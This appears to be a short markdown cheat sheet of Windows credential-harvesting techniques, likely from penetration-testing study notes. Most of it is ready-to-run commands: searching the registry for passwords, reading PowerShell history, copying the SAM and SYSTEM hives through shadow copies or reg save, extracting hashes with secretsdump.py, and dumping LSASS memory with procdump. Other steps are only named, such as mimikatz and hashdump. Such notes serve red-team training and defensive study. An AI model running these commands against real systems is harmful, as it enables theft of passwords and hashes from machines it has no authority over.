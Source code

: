 # 1-Find Clear-Text Files:
- **Powershell History**:
```
Path: C:\<UserName>\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Registry: find password keyword**:
```
c:\Users\user> reg query HKLM /f password /t REG_SZ /s
C:\Users\user> reg query HKCU /f password /t REG_SZ /s
```
- **Also look for:**
  - Database Files
  - Memory Dump
  - Active Directory.Users' description
  - Network Sniffing

# 2-Key Logging

# 3-SAM Database:
  - Path: c:\Windows\System32\config\sam
  - we can not read it and copy it
  - SAM database is encrypted either with RC4 or AES.we need a decryption key which is also stored in the files system in **c:\Windows\System32\Config\system** 
    ### how to Dump:
    - 1-MetaSploit.hashdump
    - 2-Microsoft Volume shadow copy:
        ```
        wmic shadowcopy call create Volume='C:\'
        #find where it is stored
        vssadmin list shadows
        copy \\path\to\volume\sam  \\somewhere-Else
        copy \\path\to\volume\\system \\soemwhere-Else
        ```
# 4-Registry Hives:
```
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
#Extract
secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```

# 5-Dump LSASS:
  - 5.1-Using GUI with Task-Manager
  - 5.2-Using procdump
    ```
      procdump.exe -accepteula -ma lsass.exe c:\<somewhere>
    ```
  - 5.3-mimikatz
